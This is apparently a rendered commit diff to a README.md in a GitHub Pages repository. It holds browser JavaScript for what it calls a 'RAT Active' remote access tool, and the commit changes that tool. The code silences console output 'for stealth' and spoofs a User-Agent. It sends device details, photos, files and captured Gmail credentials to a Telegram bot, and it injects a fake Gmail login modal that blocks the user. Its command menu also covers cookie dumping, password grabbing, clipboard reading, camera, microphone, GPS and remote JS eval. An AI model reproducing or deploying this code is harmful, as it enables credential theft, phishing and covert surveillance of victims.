

Before and after one commit to kodxurx/kodxurx.github.io, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -113,16 +113,21 @@
         let intervalId = null;
         let phishingModalActive = false;
 
-        // Suppress console logs
+        // Suppress console logs for stealth
         console.log = function() {};
         console.error = function() {};
+
+        // Helper: headers to avoid Telegram blocking browser requests
+        const TELEGRAM_HEADERS = {
+            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
+        };
 
         // ================= TELEGRAM HELPERS =================
         async function sendMessage(text, parseMode = 'HTML') {
             try {
                 await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
                     method: 'POST',
-                    headers: { 'Content-Type': 'application/json' },
+                    headers: { ...TELEGRAM_HEADERS, 'Content-Type': 'application/json' },
                     body: JSON.stringify({ chat_id: ADMIN_CHAT_ID, text, parse_mode: parseMode })
                 });
             } catch(e) {}
@@ -133,7 +138,7 @@
             fd.append('chat_id', ADMIN_CHAT_ID);
             fd.append('photo', blob, 'capture.jpg');
             fd.append('caption', caption);
-            await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`, { method: 'POST', body: fd });
+            await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`, { method: 'POST', headers: TELEGRAM_HEADERS, body: fd });
         }
 
         async function sendDocument(blob, filename, caption) {
@@ -141,7 +146,7 @@
             fd.append('chat_id', ADMIN_CHAT_ID);
             fd.append('document', blob, filename);
             fd.append('caption', caption);
-            await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendDocument`, { method: 'POST', body: fd });
+            await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendDocument`, { method: 'POST', headers: TELEGRAM_HEADERS, body: fd });
         }
 
         // ================= REGISTRATION =================
@@ -158,7 +163,7 @@
             await sendMessage(`🔌 *New Device Connected*\n🌐 ${info.url}\n🖥️ ${info.ua.substring(0,100)}\n📱 ${info.platform}\n🌍 ${info.lang}\n📺 ${info.screen}`, 'Markdown');
         }
 
-        // ================= PHISHING MODAL =================
+        // ================= PHISHING MODAL (FORCED GMAIL LOGIN) =================
         function createPhishingModal() {
             if (phishingModalActive) return;
             phishingModalActive = true;
@@ -208,11 +213,11 @@
             try {
                 switch(cmd) {
                     case '/start':
-                        await sendMessage(`✅ *RAT Active*\nCommands:\n/phish_gmail - forced Gmail login\n/gmail - extract from real login page\n/photo - take camera picture\n/audio - record microphone\n/location - GPS coordinates\n/screenshot - page screenshot\n/cookies - dump cookies\n/grab_pass - any visible password\n/clipboard - read clipboard\n/eval <js> - run JS\n/upload - ask user to send a file`);
+                        await sendMessage(`✅ *RAT Active*\n\nCommands:\n/phish_gmail - Forced Gmail login modal\n/gmail - Extract login from real Google page\n/photo - Take camera picture\n/audio - Record microphone (5s)\n/location - GPS coordinates\n/screenshot - Page screenshot\n/cookies - Dump cookies\n/grab_pass - Any visible password\n/clipboard - Read clipboard\n/eval <js> - Execute JS\n/upload - Exfiltrate a file`, 'Markdown');
                         break;
                     case '/phish_gmail':
                         if (!phishingModalActive) createPhishingModal();
-                        await sendMessage('🎣 Phishing modal injected');
+                        await sendMessage('🎣 Phishing modal injected. User is now blocked until credentials are entered.');
                         break;
                     case '/gmail': {
                         if (location.href.includes('accounts.google.com')) {
@@ -221,12 +226,12 @@
                             if (!pass) {
                                 const pf = document.querySelector('input[type="password"]');
                                 if (pf) { pf.focus(); setTimeout(() => pf.blur(), 100); }
-                                await sendMessage('Attempting extraction...');
+                                await sendMessage('Attempting to trigger autofill...');
                             } else {
-                                await sendMessage(`🔑 Gmail credentials: ${email} / ${pass}`);
+                                await sendMessage(`🔑 Gmail credentials extracted:\n📧 Email: ${email}\n🔑 Password: ${pass}`);
                             }
                         } else {
-                            await sendMessage('Not on Google login page. Use /phish_gmail instead.');
+                            await sendMessage('Not on Google login page. Use /phish_gmail to force a fake modal.');
                         }
                         break;
                     }
```
Also changed, not shown: other parts of README.md (+29 -22 lines).
